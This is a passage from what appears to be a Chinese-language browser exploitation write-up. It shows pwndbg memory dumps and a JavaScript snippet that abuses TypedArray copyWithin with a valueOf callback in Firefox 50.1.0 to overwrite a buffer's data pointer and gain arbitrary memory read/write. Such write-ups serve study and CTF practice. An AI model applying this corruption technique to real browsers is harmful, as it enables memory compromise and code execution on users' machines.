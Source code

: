 gdb attach 上去看看

```
pwndbg&gt; x/40gx 0x7fffcb243060 
 // buffer1
0x7fffcb243060: 0x00007fffc5acb2b0      0x00007fffc5acda10          
0x7fffcb243070: 0x0000000000000000      0x00007fffeb97ebf0          
0x7fffcb243080: 0x00003fffe5921850      0xfff8800000000060          
0x7fffcb243090: 0xfffe7fffcb2180c0      0xfff8800000000000          
0x7fffcb2430a0: 0x6162636461626364      0x0000000000000000          
0x7fffcb2430b0: 0x0000000000000000      0x0000000000000000          
0x7fffcb2430c0: 0x0000000000000000      0x0000000000000000          
0x7fffcb2430d0: 0x0000000000000000      0x0000000000000000          
0x7fffcb2430e0: 0x0000000000000000      0x0000000000000000          
0x7fffcb2430f0: 0x0000000000000000      0x00003fffe59218a0  
 //buffer2
0x7fffcb243100: 0x00007fffc5acb2b0      0x00007fffc5acda10          
0x7fffcb243110: 0x0000000000000000      0x00007fffeb97ebf0          
0x7fffcb243120: 0x00003fffe59218a0      0xfff8800000000060          
0x7fffcb243130: 0xfffe7fffcb218080      0xfff8800000000000          
0x7fffcb243140: 0x3132333431323334      0x0000000000000000          
0x7fffcb243150: 0x0000000000000000      0x0000000000000000   
//....
 pwndbg&gt; vmmap 0x00007fffeb97ebf0 
 0x7fffe7fca000     0x7fffec68c000 r-xp  46c2000 0      /usr/local/lib/firefox-50.1.0/libxul.so
```

### <a class="reference-link" name="%E5%86%85%E5%AD%98%E8%AF%BB%E5%86%99"></a>内存读写

接下来我们的做法是尝试把`buffer2` 的数据指针，也就是上面的`0x00003fffe59218a0` 改掉， 然后就可以内存读写了，这里是把它改到`buffer1` 的起始地址, 也就是`0x7fffcb243060`, 写入的是`0x7fffcb243060 &gt;&gt; 1 == 0x3fffe5921830`， 保存到`buffer2` 的第一项, 指定`hax` 返回值为`0x28` ，就可以覆盖掉原来的指针

```
a1_8.offset = 0;
    hax = `{` valueOf: function() `{` a1_8.offset = 0x58 ; return 0x28; `}` `}`;
    a2_64[0]=i2f(buffer1_base/2);
    a1_8.copyWithin(hax,0x48,0x50);
    print(hex(f2i(a2_64[0])));
```

运行之后的内存布局如下(重新跑地址和前面不同)， 已经成功覆盖了， 接下来就可以用`buffer2[index] = xxx` 改 `buffer1` 的内容

```
// buffer 2
0x7fffcb243240: 0x00007fffc457abe0      0x00007fffbe951880           
0x7fffcb243250: 0x0000000000000000      0x00007fffeb97ebf0           
0x7fffcb243260: 0x00003fffe59218d0      0xfff8800000000060           
0x7fffcb243270: 0xfffe7fffcb218300      0xfff8800000000000 
// 0x00003fffe59218d0 &lt;&lt; 1
0x7fffcb243280: 0x00003fffe59218d0      0x0000000000000000           
0x7fffcb243290: 0x0000000000000000      0x0000000000000000           
0x7fffcb2432a0: 0x0000000000000000      0x0000000000000000           
0x7fffcb2432b0: 0x0000000000000000      0x0000000000000000
```

